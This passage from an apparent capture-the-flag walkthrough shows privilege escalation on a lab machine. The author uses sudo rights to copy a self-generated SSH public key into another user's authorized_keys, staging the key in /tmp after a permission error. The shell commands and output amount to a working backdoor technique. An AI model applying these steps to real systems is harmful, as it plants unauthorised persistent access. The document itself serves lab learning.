 ### Privilege Escalation to Second User (elohim)

I decided to create a pair private/public keys used for SSH. I then copied public key into `authoized_keys` within the target users `.ssh` directory:

```bash
talos@principle:~$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/talos/.ssh/id_rsa): 

Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in /home/talos/.ssh/id_rsa
Your public key has been saved in /home/talos/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:Rs55J4JYr84rqI8w3Waxi5W2VUybSlrylml1dLkgy/M talos@principle
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|             .   |
|      . + o o    |
|     o X B o .   |
|    + + S + o    |
| . . X O * o     |
|o ..X X   E      |
|.o.*.O           |
|ooo o.+.         |
+----[SHA256]-----+
```

Copying the key failed due to permission issues. The elohim user probably doesn't have access to my current working directory:

```bash
talos@principle:~$ sudo -u elohim cp /home/talos/.ssh/id_rsa.pub /home/gehenna/.ssh/authorized_keys
</.ssh/id_rsa.pub /home/gehenna/.ssh/authorized_keys
cp: cannot stat '/home/talos/.ssh/id_rsa.pub': Permission denied
```

However, I copied the public key to the `/tmp` directory:

```bash
talos@principle:~$ cp .ssh/id_rsa.pub /tmp
cp .ssh/id_rsa.pub /tmp
```

And copied again which was successful:

```bash
sudo -u elohim cp /home/talos/.ssh/id_rsa.pub
talos@principle:~/.ssh$ sudo -u elohim cp /tmp/id_rsa.pub /home/gehenna/.ssh/authorized_keys
< /tmp/id_rsa.pub /home/gehenna/.ssh/authorized_keys

```
